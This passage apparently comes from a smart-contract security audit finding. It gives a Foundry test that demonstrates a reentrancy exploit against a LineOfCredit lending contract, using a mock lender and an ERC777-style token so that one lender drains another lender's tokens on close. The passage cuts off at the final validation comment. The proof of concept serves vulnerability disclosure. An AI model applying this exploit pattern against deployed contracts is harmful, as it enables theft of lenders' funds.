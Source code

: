 ```
import { MockLender } from "../mock/MockLender.sol";
import { Token777 } from "../mock/Token777.sol";
```

Add the following test to `LineOfCredit.t.sol`:

```

    function test_reentrancy() public {
        uint256 lenderOneAmount = 1000;
        uint256 lenderTwoAmount = 1000;
        Token777 tokenUsed = new Token777();
        // Create lenderController 
        address lenderOneController = address(0xdeadbeef);
        address lender2 = address(0x1337);

        // Create lenderContract 
        vm.startPrank(lenderOneController);
        MockLender lenderOneContract = new MockLender(address(line));
        vm.stopPrank();

        // give lenders their lend amount of token
        tokenUsed.mint(address(lenderOneContract), lenderOneAmount);
        tokenUsed.mint(address(lender2), lenderTwoAmount);

        // add support of the token to the SimpleOracle
        oracle.changePrice(address(tokenUsed), 1000 * 1e8); // 1000 USD

        // Borrowers adds credit line from lender2
        vm.startPrank(borrower);
        line.addCredit(dRate, fRate, lenderOneAmount, address(tokenUsed), address(lenderOneContract));
        vm.stopPrank();

        // LenderOne adds credit line
        vm.startPrank(lenderOneController);
        lenderOneContract.addCredit(dRate, fRate, lenderOneAmount, address(tokenUsed));
        vm.stopPrank();

        //borrow 1 ether
        bytes32 id_first = line.ids(0);
        vm.startPrank(borrower);
        line.borrow(id_first, lenderOneAmount);
        vm.stopPrank();
        
        // Borrowers adds an additional credit line from lender2
        vm.startPrank(borrower);
        line.addCredit(dRate, fRate, lenderTwoAmount, address(tokenUsed), address(lender2));
        vm.stopPrank();

        // Lender2 adds an additional credit line from  
        vm.startPrank(lender2);
        tokenUsed.approve(address(line), lenderTwoAmount);
        line.addCredit(dRate, fRate, lenderTwoAmount, address(tokenUsed),  address(lender2));
        vm.stopPrank();

        // repay all debt to lender 1
        vm.startPrank(borrower);
        tokenUsed.approve(address(line), lenderOneAmount);
        line.depositAndRepay(lenderOneAmount);
        line.close(id_first);
        vm.stopPrank();
        
        //validate that lender1 was able to steal lender2 tokens
```